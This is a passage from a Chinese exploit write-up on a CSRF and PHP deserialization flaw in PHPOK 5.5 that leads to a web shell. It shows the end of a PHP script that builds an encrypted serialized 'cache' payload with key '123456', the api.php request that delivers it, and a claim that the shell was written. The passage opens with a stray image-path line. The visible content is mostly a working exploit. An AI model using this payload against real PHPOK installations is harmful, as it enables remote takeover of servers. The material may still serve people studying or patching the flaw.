                 $rndkey[$i] = ord($cryptkey[$i % $key_length]);
            }
            // 用固定的算法，打乱密匙簿，增加随机性，好像很复杂，实际上并不会增加密文的强度
            for($j = $i = 0; $i < 256; $i++){
                $j = ($j + $box[$i] + $rndkey[$i]) % 256;
                $tmp = $box[$i];
                $box[$i] = $box[$j];
                $box[$j] = $tmp;
            }
            // 核心加解密部分
            for($a = $j = $i = 0; $i < $string_length; $i++){
                $a = ($a + 1) % 256;
                $j = ($j + $box[$a]) % 256;
                $tmp = $box[$a];
                $box[$a] = $box[$j];
                $box[$j] = $tmp;
                $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
            }
            return $result;
        }
    }
    $token = new token();
    $token->keyid('123456');
    echo $token->encode(serialize(new cache));
    ?>

![6.png](./resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId34.png)

运行脚本拿到Payload，请求有进行解密操作的接口，如：

    http://www.0-sec.org/api.php?c=index&f=phpok&token=

请求前：

![7.png](./resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId35.png)

请求后：

![8.png](./resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId36.png)

shell写入成功。

文件内容：

![9.png](./resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId37.png)

![10.png](./resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId38.png)

参考链接
--------

> https://xz.aliyun.com/t/7852
